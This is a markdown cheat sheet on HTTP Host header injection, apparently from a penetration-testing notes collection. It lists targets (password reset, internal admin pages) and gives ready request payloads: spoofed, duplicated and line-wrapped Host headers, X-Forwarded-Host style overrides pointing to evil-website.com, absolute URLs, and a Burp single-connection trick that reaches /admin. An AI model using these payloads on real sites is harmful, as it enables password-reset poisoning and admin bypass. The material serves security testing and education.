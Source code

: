 # Host Header Injection

## Introduction
HTTP Host header attacks exploit vulnerable websites that handle the value of the Host header in an unsafe way. If the server implicitly trusts the Host header, and fails to validate or escape it properly, an attacker may be able to use this input to inject harmful payloads that manipulate server-side behavior. Attacks that involve injecting a payload directly into the Host header are often known as "Host header injection" attacks.

## Where to find
* In the feature where the website can send email to us. For example forgot password / newsletter.
* Admin module that accept access locally or internal IP.

## Impact
* Bypass Admin Module
* Reset Password Poisoning

## How to exploit
#### Note: evil-website.com can be (localhost, Routing-SSRF)
1. Change the host header
```
GET /index.php HTTP/1.1
Host: evil-website.com
...
```
2. Duplicating the host header
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
Host: evil-website.com
...
```
3. Add line wrapping
```
GET /index.php HTTP/1.1
 Host: vulnerable-website.com
Host: evil-website.com
...
```
4. Add host override headers
```
X-Forwarded-For: evil-website.com
X-Forwarded-Host: evil-website.com
X-Forwarded-Server: evil-website.com
X-Client-IP: evil-website.com
X-Remote-IP: evil-website.com
X-Remote-Addr: evil-website.com
X-Host: evil-website.com

### How to use? In this case im using "X-Forwarded-For : evil.com"
GET /index.php HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For : evil-website.com
...
```
5. Supply an absolute URL
```
GET https://vulnerable-website.com/ HTTP/1.1
Host: evil-website.com
...
```

6.Burp Repeater "Send group (single connection)" Original+tampering
```
### Request Original:
GET / HTTP/1.1
Host: www.vuln.com
Connection: keep-alive

### Request Tampering:
GET /admin HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive

### Response Tampering:
HTTP/1.1 200 OK
…
<form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
 ```

## References
* [PortSwigger](https://portswigger.net/web-security/host-header/exploiting)
